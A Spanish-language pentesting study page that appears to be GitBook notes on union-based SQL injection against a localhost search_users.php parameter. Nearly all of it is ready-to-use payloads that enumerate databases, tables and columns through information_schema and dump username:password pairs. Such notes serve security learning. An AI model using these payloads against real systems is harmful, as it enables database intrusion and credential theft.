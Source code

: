 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

***

#### Inyección SQL basada en uniones

* Determinar cuantas **columnas** hay

**➜** `http://localhost/search_users.php?id=1' ORDER BY 1-- -`

* Ver datos inyectables con **union select** donde el **id** no exista

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT 1-- -`

* Ver base de datos **actualmente** en **uso**:

<figure><img src="../../.gitbook/assets/mostar-db.PNG" alt=""><figcaption></figcaption></figure>

* Ver **todas** las base de datos

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata-- -`

* Ver **tablas** de una base de datos en **concreto**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'db'-- -`

* Ver **columnas** de una **tabla** en **concreto:**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'users'-- -`

* Ver **datos** de las **columnas** de una **tabla** en **concreto:**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(username,0x3a,password) FROM users-- -`

* Ver **datos** de las **columnas** indicadas de una base de datos sin **uso** actualmente indicando el nombre de la base de datos:

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(username,0x3a,password) FROM db.users-- -`

<figure><img src="../../.gitbook/assets/dump-credentials.PNG" alt=""><figcaption></figcaption></figure>
